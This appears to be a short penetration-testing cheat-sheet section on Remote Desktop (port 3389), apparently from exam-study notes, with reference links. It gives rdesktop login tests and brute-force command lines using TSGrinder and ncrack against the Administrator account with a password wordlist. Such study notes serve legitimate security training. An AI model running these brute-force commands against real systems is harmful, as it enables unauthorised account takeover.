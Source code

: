 ### Port 3389 - Remote desktop

Rdesktop Enumeration

    Remote Desktop Connection

Rdestop Bruteforce

    TSGrinder
        tsgrinder.exe -w dictionary_file -l leet -d workgroup -u administrator -b -n 2 IP_Address
    Tscrack 

Test logging in to see what OS is running

```
rdesktop -u guest -p guest INSERTIPADDRESS -g 94%

# Brute force
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://INSERTIPADDRESS
```

https://www.hackingarticles.in/penetration-testing-remote-desktop-port-3389/

https://pentestlab.blog/tag/rdp/

https://www.hackingloops.com/penetration-testing-windows-7-machine-for-remote-desktop-vulnerability/


    https://serverfault.com/questions/148731/enabling-remote-desktop-with-command-prompt
    https://serverfault.com/questions/200417/ideal-settings-for-rdesktop
